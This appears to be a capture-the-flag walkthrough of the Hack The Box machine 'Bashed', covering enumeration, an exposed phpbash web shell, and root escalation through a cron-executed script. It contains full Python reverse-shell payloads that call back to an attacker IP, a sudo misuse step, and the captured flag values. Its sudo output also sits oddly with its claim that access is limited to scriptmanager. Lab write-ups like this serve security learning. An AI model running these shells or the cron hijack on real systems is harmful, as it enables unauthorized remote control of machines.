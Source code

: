 # HTB: Bashed

## Engagement Overview
**Target:** HTB – Bashed  
**Box IP:** 10.10.10.68

---

### Objectives
- Enumerate open services and directories
- Gain initial foothold via exposed web shell
- Escalate to user and root
- Capture user and root flags

---

## Service Enumeration

```
nmap -sC -sV -oN nmap.txt 10.10.10.68
```

- Port 80 open – Apache httpd 2.4.18 (Ubuntu)
- Web page title: *Arrexel's Development Site*

**Directory Enumeration (Dirbuster):**
- `/dev/phpbash.min.php`
- `/dev/phpbash.php`
- `/uploads/`

---

## Initial Access

Accessing the exposed shell at:

```
http://10.10.10.68/dev/phpbash.php
```

Confirms web shell as `www-data`:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Reverse Shell Upgrade

```bash
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.2",1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Upgraded with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

## Privilege Escalation

`www-data` has `sudo` access to run commands as `scriptmanager` without password:

```
(ALL : ALL) NOPASSWD: ALL
```

Switched to `scriptmanager`, discovered `/scripts/` directory is writable and contains:

```
-rw-r--r-- 1 scriptmanager scriptmanager   test.py
-rw-r--r-- 1 root          root            test.txt
```

Noted `test.txt` is regularly overwritten — likely a root cron job running `test.py`.

### Gained Root Shell via Cron Execution

Overwrote `test.py` with a reverse shell payload:

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.16.2",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

Caught root shell via netcat listener.

---

## Post-Exploitation

**Flags:**
- `user.txt`: `501893517418a7460a6f616a86f3fd82`
- `root.txt`: `25a9eb38a763d8a0f04af9a3fc390ee7`

---

## Tools Utilized

- `nmap`
- `dirbuster`
- Python reverse shell
- `linuxprivchecker`
- `/dev/phpbash.php` interactive shell

References:
- https://github.com/sleventyeleven/linuxprivchecker
- https://infosecwriteups.com/pimp-my-shell-5-ways-to-upgrade-a-netcat-shell-ecd551a180d2

---

## Key Takeaways

- Early enumeration can reveal dangerous dev artifacts like `phpbash.php` — always check `/dev/`, `/test/`, and `/uploads/`
- Reverse shells can be stabilized and upgraded quickly using Python and TTY tricks — important for chaining escalation steps
- Cron jobs running scripts owned or writable by non-root users are a goldmine for privesc
- Use of `sudo` without a password by secondary users (like `scriptmanager`) can be leveraged even without direct root access